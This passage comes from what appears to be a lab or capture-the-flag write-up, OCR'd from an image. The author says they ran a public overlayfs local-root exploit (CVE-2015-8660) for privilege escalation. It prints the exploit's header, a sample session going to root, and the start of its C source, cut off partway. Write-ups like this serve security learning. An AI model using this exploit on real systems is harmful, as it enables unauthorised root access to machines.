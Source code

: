 we got the version of the ubuntu version and we can check the internet for the xploits\

i have found one in the [link](https://www.exploit-db.com/exploits/39166/) 
 i have copied that and executed it in the machine to escalate the privilege
 ```code 
 /*
just another overlayfs exploit, works on kernels before 2015-12-26

# Exploit Title: overlayfs local root
# Date: 2016-01-05
# Exploit Author: rebel
# Version: Ubuntu 14.04 LTS, 15.10 and more
# Tested on: Ubuntu 14.04 LTS, 15.10
# CVE : CVE-2015-8660

blah@ubuntu:~$ id
uid=1001(blah) gid=1001(blah) groups=1001(blah)
blah@ubuntu:~$ uname -a && cat /etc/issue
Linux ubuntu 3.19.0-42-generic #48~14.04.1-Ubuntu SMP Fri Dec 18 10:24:49 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 14.04.3 LTS \n \l
blah@ubuntu:~$ ./overlayfail
root@ubuntu:~# id
uid=0(root) gid=1001(blah) groups=0(root),1001(blah)

12/2015
by rebel

6354b4e23db225b565d79f226f2e49ec0fe1e19b
*/

#include <stdio.h>
#include <sched.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>
#include <sys/wait.h>

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    system("rm -rf /tmp/haxhax");
    mkdir("/tmp/haxhax", 0777);
    mkdir("/tmp/haxhax/w", 0777);
    mkdir("/tmp/haxhax/u",0777);
    mkdir("/tmp/haxhax/o",0777);

 ```